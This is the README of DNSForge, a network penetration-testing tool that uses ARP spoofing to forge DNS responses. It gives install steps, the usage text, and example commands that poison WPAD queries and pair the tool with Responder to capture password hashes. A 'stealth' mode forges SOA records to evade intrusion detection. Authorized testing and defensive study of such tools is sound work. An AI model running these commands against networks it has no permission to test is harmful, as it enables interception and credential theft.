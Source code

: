 # DNSForge
DNSForge is a network pentesting tool that forges DNS responses as if they were originating from the authoritative nameserver. This tool is intended to be used alongside [Responder](https://github.com/lgandx/Responder). The original blog post for DNSForge can be found [here](https://aon.com/cyberlabs/dnsforge)

## Attack Scenario
This tool lends itself in the context of an internal network that consists of Windows workstations and servers. DNSForge utilizes ARP spoofing to redirect DNS requests intended for the authoritative nameserver to the attacker's host. Upon receiving DNS requests, DNSForge poisons the response with the attacker's IP address and, in stealth mode configuration, forges the authoritative nameserver's SOA record. This induces victims to accept DNS responses from a seemingly legitimate source and performs an adversary-in-the-middle attack.

## Installation
The tool can be installed using [pipx](https://github.com/pypa/pipx)
```bash
pipx install git+https://github.com/AonCyberLabs/DNSForge
```

Alternatively, the tool can be installed using [Poetry](https://python-poetry.org/) after cloning the repo.
```bash
poetry install
poetry shell
```

## Usage
```
 ______   ____  _____   ______   ________
|_   _ `.|_   \|_   _|.' ____ \ |_   __  |
  | | `. \ |   \ | |  | (___ \_|  | |_ \_|.--.   _ .--.  .--./) .---.
  | |  | | | |\ \| |   _.____`.   |  _| / .'`\ \[ `/'`\]/ /'`\;/ /__\\
 _| |_.' /_| |_\   |_ | \____) | _| |_  | \__. | | |    \ \._//| \__.,
|______.'|_____|\____| \______.'|_____|  '.__.' [___]   .',__`  '.__.'
                                                       ( ( __))
Author : Apurva Goenka
Version : 0.2.1

usage: dnsforge [-h] -i INTERFACE -p POISON_IP [-ttl TIME_TO_LIVE] [-q QUERY_NAME] [-s] [-v]
                [-ds DNS_SERVER] [-d DOMAIN] (-t TARGET | -tf TARGET_FILE | --no-arp-spoof)

DNS Response Forger

options:
  -h, --help            show this help message and exit
  -i INTERFACE, --interface INTERFACE
                        Interface to sniff/poison on
  -p POISON_IP, --poison-ip POISON_IP
                        IP address to forge/poison DNS response
  -ttl TIME_TO_LIVE, --time-to-live TIME_TO_LIVE
                        TTL (seconds) for poisoned DNS response
  -q QUERY_NAME, --query-name QUERY_NAME
                        DNS Query Name to Poison (can specify multiple by separating with ',')
  -s, --stealth         Stealth Mode
  -v, --verbose         Verbose Output

Stealth Mode:
  -ds DNS_SERVER, --dns-server DNS_SERVER
                        IP address of Authoritative DNS Server
  -d DOMAIN, --domain DOMAIN
                        The domain name of the victim domain

ARP Spoofing:
  -t TARGET, --target TARGET
                        ARP spoofing target IP
  -tf TARGET_FILE, --target-file TARGET_FILE
                        ARP spoofing target IP list
  --no-arp-spoof        Turn off ARP spoofing
```

## Stealth Mode
This option requests the SOA record from the authoritative DNS server and appends it to forged DNS responses for added stealth on networks with IDS/IPS devices. With this mode enabled, the tool produces DNS response messages that exactly match those generated from the authoritative DNS server.

## ARP Spoofing
The tool can be supplied either a target IP with `-t`, a file with target IPs with `-tf` or the `--no-arp-spoof` flag that turns off ARP spoofing and lets the user decide the method of redirecting DNS packets to the attacker's host. At least one of these options must be supplied.

### Spoofing Gateway
In scenarios where the authoritative nameserver does not reside on the same subnet as the attacking host, DNSForge can be configured to perform ARP spoofing against the subnet gateway (either by explicitly supplying the gateway IP as a spoofing target or automatically when a target IP outside the selected interface's subnet is supplied). Since this action can perform denial-of-service against victim clients on the same subnet, DNSForge performs additional checks to verify if IP forwarding is enabled on the attacking host. IP forwarding will ensure that the attacking host acts as the gateway itself and mantains network reliability by forwarding incoming packets to the subnet's gateway IP.

The following command enables IP forwarding on Linux systems: `sudo sysctl -w net.ipv4.ip_forward=1`

Additionally, along with IP forwarding, the following iptables rule is recommended to ensure that only non-DNS traffic is forwarded: `sudo iptables -A FORWARD -i <Interface> -p udp --dport 53 -j DROP`

## Example (Basic)
Sample scenario of poisoning DNS requests for WPAD issued by victim host:
1. Setup DNS Forge to poison incoming requests
```sudo dnsforge -i <Interface> -p <Poison IP> -t <Target ARP Spoof IP> -q wpad```
2. Finally, run Responder to serve malicious WPAD file and capture hashes
```sudo responder -I <Interface> -P```

## Example (Stealth)
Sample scenario of poisoning DNS requests for WPAD issued by victim host in stealth mode:
1. Setup DNS Forge to poison incoming requests after capturing SOA signaure from DNS server.
```sudo dnsforge -i <Interface> -p <Poison IP> -t <Target ARP Spoof IP> -q wpad -s -ds <DNS Server IP> -d <Domain Name>```
2. Finally, run Responder to serve malicious WPAD file and capture hashes
```sudo responder -I <Interface> -P```

### Copyright
Copyright 2024 Aon plc